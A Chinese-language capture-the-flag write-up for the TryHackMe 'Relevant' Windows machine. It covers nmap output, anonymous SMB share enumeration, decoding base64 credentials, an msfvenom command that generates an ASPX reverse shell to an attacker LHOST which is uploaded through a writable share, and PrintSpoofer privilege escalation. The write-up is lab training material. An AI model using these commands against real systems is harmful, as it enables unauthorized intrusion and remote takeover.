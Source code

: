# Relevant


### 信息收集
nmap快速扫描：
```
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49663/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
```

nmap版本扫描:
```
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard Evaluation 14393 microsoft-ds
Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-06-09T02:29:08-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 2h20m00s, deviation: 4h02m31s, median: 0s
| smb2-time: 
|   date: 2024-06-09T09:29:10
|_  start_date: 2024-06-09T09:25:23
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

以后unknown的端口都要好好扫扫，控了我两天。
PORT      STATE    SERVICE VERSION
49663/tcp open     http    Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
49666/tcp open     msrpc   Microsoft Windows RPC
49668/tcp filtered unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

其中有smb有关的端口，可以使用smbclient枚举:  
```smbclient -N -L //IP/```  
```
输出：
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nt4wrksv       Disk      
```
尝试登录一下nt4wrksv：  
```smbclient //IP/nt4wrksv```
里面有一个名为passwords.txt的文件，使用get下载，查看内容：  
```
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk%  
```

第一个看上去像是base64：  
```echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d```
不知道为什么，使用终端解出来的会多一个%:  
```Bob - !P@$$W0rD!123```  
第二个好像也是base64(反正解出来了)：  
```Bill - Juw4nnaM4n420696969!$$$```
好了，实锤了，上面的password是兔子洞。

可以直接传反shell进去，使用msfvenom生成：
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f aspx -o  reverse-shell.aspx
```
登陆进入smb使用put把反shell放进smb共享目录里，然后访问http://IP:49663/nt4wrksv/reshell执行。
![Alt text](../../../picture/THM/relevant/Snipaste_2024-09-08_14-55-05.png)



### 提权

进入系统后先看看自己有哪些权限：
![Alt text](../../../picture/THM/relevant/Snipaste_2024-09-08_16-08-59.png)

这里的SeImpersonatePrivilege权限有一个很著名的漏洞：PrintSpoofer漏洞。
直接去github找一下有没有可以使用的工具：
https://github.com/k4sth4/PrintSpoofer

```cmd
PrintSpoofer.exe -i -c powershell
```
![Alt text](../../../picture/THM/relevant/Snipaste_2024-09-08_16-05-04.png)

这个漏洞使用工具比较无脑，这里放上工具的源码：
https://github.com/itm4n/PrintSpoofer/blob/master/PrintSpoofer/PrintSpoofer.cpp